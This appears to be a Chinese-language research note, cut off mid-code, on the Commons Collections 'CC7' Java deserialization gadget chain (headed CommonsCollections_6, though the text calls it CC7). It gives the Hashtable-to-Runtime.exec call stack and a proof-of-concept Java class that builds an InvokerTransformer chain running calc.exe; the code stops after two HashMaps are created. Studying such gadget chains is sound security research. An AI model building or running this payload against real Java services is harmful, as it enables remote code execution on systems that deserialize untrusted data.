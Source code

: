 ## CommonsCollections_6

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.2.1



CC7 依旧是寻找 LazyMap 的触发点，这次用到了 Hashtable。

看一下调用栈：

```
 Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

## POC&复现

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonCollections7 {
    public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {

        Transformer[] fakeTransformers = new Transformer[] {};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

```
